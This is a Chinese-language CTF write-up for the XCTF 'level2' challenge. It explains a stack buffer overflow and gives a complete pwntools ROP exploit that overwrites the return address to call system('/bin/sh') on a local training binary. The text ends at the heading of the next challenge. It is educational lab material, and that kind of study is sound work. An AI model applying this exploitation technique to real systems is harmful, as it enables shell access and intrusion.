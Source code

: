 # 攻防世界: level2

## **[目标]**

stack overflow,ROP

## **[环境]**

Ubuntu

## **[工具]**

gdb、objdump、python、pwntools, IDA

## **[过程分析]**

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/level2/pic/1.png)- 栈不可执行，但是可以进行溢出。

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/level2/pic/2.png)

- 发现字符串 bin/sh 和 system 函数，由此想到我们可以把 vulnerable_function 的返回地址修改成system函数的地址，然后把bin/sh字符串的地址也写入栈中，也就是system函数参数的位置上。构造如下payload：

```
payload = 'a'*0x8c payload += p32(sys_addr) #覆盖返回地址到system函数 payload += p32(0x12345678)　#随意填写system函数调用结束的返回地址 payload += p32(bin_addr)　 #system函数的参数，指向“/bin/sh”
```

完整exp：

```python
from pwn import *
p = process('./level2') 
elf = ELF("./level2")
sys_addr = elf.symbols["system"] 
bin_addr = elf.search("/bin/sh").next()
payload = 'a'*0x8c 
payload += p32(sys_addr) 
payload += p32(0x12345678) 
payload += p32(bin_addr)
p.recvline() 
p.sendline(payload) 
p.interactive()
```

# 攻防世界: string

## **[目标]**
